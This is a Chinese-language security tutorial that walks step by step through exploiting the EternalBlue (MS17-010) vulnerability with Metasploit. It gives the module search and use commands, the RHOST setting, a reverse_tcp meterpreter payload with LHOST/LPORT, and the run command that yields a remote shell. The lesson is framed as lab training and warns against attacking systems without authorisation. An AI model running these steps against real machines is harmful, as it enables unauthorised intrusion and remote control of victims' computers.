






# 网络安全：P88：使用MSF攻击永恒之蓝漏洞



## 概述
在本节课中，我们将学习如何使用Metasploit Framework（MSF）来攻击著名的“永恒之蓝”（MS17-010）漏洞。我们将从搜索模块开始，逐步完成目标设置、参数配置，最终执行攻击并获得目标系统的控制权。整个过程将分为三个清晰的步骤。

## 第一步：搜索与选择模块
MSF中集成了上千个模块，我们的首要任务是找到用于扫描和攻击永恒之蓝漏洞的模块。



永恒之蓝漏洞影响2017年之前发布的大部分Windows操作系统（Windows XP/2000等过老系统除外）。该漏洞在微软官方被编号为**MS17-010**。

在MSF中搜索模块的命令是`search`。我们可以根据漏洞名称或编号进行搜索。

以下是搜索永恒之蓝相关模块的命令：
```bash
search ms17-010
```
执行搜索后，通常会返回四个模块。我们无需理解每个模块的代码，只需关注其`description`（描述信息）即可。描述会清晰地说明模块的用途。

从模块名称的英文单词也能初步判断：
*   **exploit**：用于漏洞攻击的利用脚本。
*   **auxiliary**：辅助模块，通常用于检测漏洞是否存在。

## 第二步：使用模块与查看配置
找到模块后，我们需要使用它。有两种方法可以使用模块。



第一种方法是使用模块的序号：
```bash
use 0
```
第二种方法是使用模块的全称（可通过复制粘贴获得）：
```bash
use exploit/windows/smb/ms17_010_eternalblue
```
两种方法效果相同。

使用模块后，进入该模块的上下文环境。接下来，我们需要配置模块参数。在配置前，必须知道有哪些可配置项。

使用以下命令查看当前模块的所有设置选项：
```bash
show options
```
或者使用简写：
```bash
options
```
执行命令后，会显示`Module options`（模块选项）。我们需要重点关注`Required`列为`yes`的必填项。



其中，`RHOST`是必须设置的选项，它代表**目标主机的IP地址**（Target host）。

## 第三步：设置参数与执行攻击
上一节我们介绍了如何查看模块配置，本节中我们来看看如何设置关键参数并发动攻击。

### 1. 设置目标（RHOST）
要设置`RHOST`，首先需要一台存在永恒之蓝漏洞的靶机。建议从**MSDN**网站下载2017年之前的原生Windows 7 64位系统镜像，并安装在VMware等虚拟机中。确保攻击机（Kali Linux）与靶机处于同一局域网并能互相通信。

可以使用`ping`命令测试连通性：
```bash
ping 192.168.1.129
```
确认连通后，在MSF中设置目标地址：
```bash
set RHOST 192.168.1.129
```
设置完成后，再次运行`show options`，确认所有必填项都已配置。

### 2. 理解与确认Payload
`Payload`（攻击载荷）是攻击生效后实际在目标系统上执行的代码核心。在较新版本的MSF中，默认Payload通常已设置为`windows/x64/meterpreter/reverse_tcp`，这是适用于64位Windows系统的反弹TCP连接载荷。

如果需要手动设置，命令如下：
```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
设置Payload后，下方会出现`Payload options`。其中有两个关键参数：
*   **LHOST**：监听地址，即攻击者（Kali）的IP地址。MSF通常会尝试自动填充。
*   **LPORT**：监听端口，范围是0-65535，可任意指定一个未被占用的端口，例如60000。
    ```bash
    set LPORT 60000
    ```

### 3. 执行攻击
所有参数配置完毕后，使用`run`或`exploit`命令执行攻击：
```bash
run
```
攻击成功后，会获得一个`meterpreter`会话。`meterpreter`是MSF提供的高级、动态的后期渗透测试交互shell，它的出现标志着我们已经成功控制了目标机器。

**请注意**：永恒之蓝攻击可能导致目标系统蓝屏。请仅在授权的测试环境或自己的虚拟机中进行练习，切勿攻击他人计算机或生产系统。此外，Windows 10/11系统已修复此漏洞。

## 总结
本节课中我们一起学习了使用MSF攻击永恒之蓝漏洞的完整流程。我们将其归纳为三个核心步骤：
1.  **使用模块**：通过`search`查找并`use`选择正确的攻击模块。
2.  **配置参数**：通过`show options`查看并`set`关键参数，主要是目标`RHOST`和攻击载荷`PAYLOAD`（含`LHOST`, `LPORT`）。
3.  **执行攻击**：使用`run`命令发动攻击，成功后会建立`meterpreter`会话。





MSF的设计遵循统一的逻辑。掌握这个流程后，未来面对新的漏洞（如假设的MS23-010）或其他平台（如Android）的漏洞，你都可以举一反三，遵循“搜索->使用->配置->执行”的相同模式进行测试，这正是MSF强大且易用的体现。